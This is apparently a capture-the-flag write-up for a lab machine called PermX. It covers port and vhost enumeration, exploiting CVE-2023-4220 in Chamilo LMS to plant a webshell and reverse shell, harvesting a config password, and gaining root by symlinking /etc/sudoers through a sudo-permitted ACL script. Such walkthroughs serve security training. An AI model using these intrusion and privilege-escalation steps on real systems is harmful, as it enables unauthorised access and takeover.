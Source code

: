 # PermX

<figure><img src="../../.gitbook/assets/PermX.png" alt=""><figcaption></figcaption></figure>

## Enumeration

```bash
nmap -v -A -O -p- -T4 -Pn -sC permx.htb -oN nmap
```

```bash
Nmap scan report for permx.htb (10.10.11.23)
Host is up (0.046s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp    open     http            Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: eLEARNING
4444/tcp  filtered krb524
44444/tcp open     cognex-dataman?
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/25%OT=22%CT=1%CU=41801%PV=Y%DS=2%DC=T%G=Y%TM=66A2
OS:20D1%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10C%TI=Z%CI=Z%TS=B)SEQ(SP
OS:=FF%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FF%GCD=2%ISR=10C%TI=Z%CI=Z%
OS:II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11N
OS:W7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE8
OS:8%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40
OS:%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=
OS:%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%
OS:W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%
OS:DFI=N%T=40%CD=S)

Uptime guess: 9.364 days (since Tue Jul 16 03:10:15 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   44.17 ms 10.10.14.1
2   44.35 ms permx.htb (10.10.11.23)

NSE: Script Post-scanning.
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.11 seconds
           Raw packets sent: 66838 (2.947MB) | Rcvd: 66257 (2.656MB)

```

### Port 80

<figure><img src="../../.gitbook/assets/image (875).png" alt=""><figcaption></figcaption></figure>

Trying to fuzzing vhosts we obtain some interesting results:

{% code overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.permx.htb" -u http://permx.htb -t 100 -fc 302 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

Navigate to `lms.permx.htb` after adding it to `/etc/hosts`:

<figure><img src="../../.gitbook/assets/image (876).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:orange;">**Chamilo**</mark> is an open-source learning management system (LMS) that provides a comprehensive platform for e-learning and online education. It is designed to facilitate the creation, management, and delivery of educational content and courses.
{% endhint %}

The username associated to Davis Miller, the Administrator of platform, is admin.

## Foothold (www-data)

Searching on the web seems to exists a PoC for the **CVE-2023-4220** associated to Chamilo versions preceding **1.11.24.**

{% embed url="https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc" %}

<figure><img src="../../.gitbook/assets/image (878).png" alt=""><figcaption></figcaption></figure>

Ok, seems to be vulnerable, so upload a webshell and then trigger a revshell using the `-a revshell` option:

<figure><img src="../../.gitbook/assets/image (880).png" alt=""><figcaption></figcaption></figure>

Searching in the file system we can find an interesting config file:

<figure><img src="../../.gitbook/assets/image (881).png" alt=""><figcaption></figcaption></figure>

But trying to login using these credentials is a fail:

<figure><img src="../../.gitbook/assets/image (882).png" alt=""><figcaption></figcaption></figure>

So get linpeas and start enumeration obtaining some passwords:

<figure><img src="../../.gitbook/assets/image (883).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (885).png" alt=""><figcaption></figcaption></figure>

and the user with console on the system:

<figure><img src="../../.gitbook/assets/image (884).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation (mtz)

SSH as `mtz` user using password -> `03F6lY3uXAP2bkW8`

and get the user flag :tada:

<figure><img src="../../.gitbook/assets/image (886).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation (root)

Checking the sudo privileges we see that the mtz user can run `acl.sh`:

<figure><img src="../../.gitbook/assets/image (887).png" alt=""><figcaption></figcaption></figure>

This script can change the permissions of any file inside the /home/mtz directory. So let’s just make a symbolic link to the sudoers file and change our permissions on this file to read/write:

```bash
ln -s /etc/sudoers helpfile
sudo /opt/acl.sh mtz rw /home/mtz/helpfile
```

After that just open the helpfile and add mtz user to sudoers, sudo su and get root flag:

<figure><img src="../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (890).png" alt=""><figcaption></figcaption></figure>
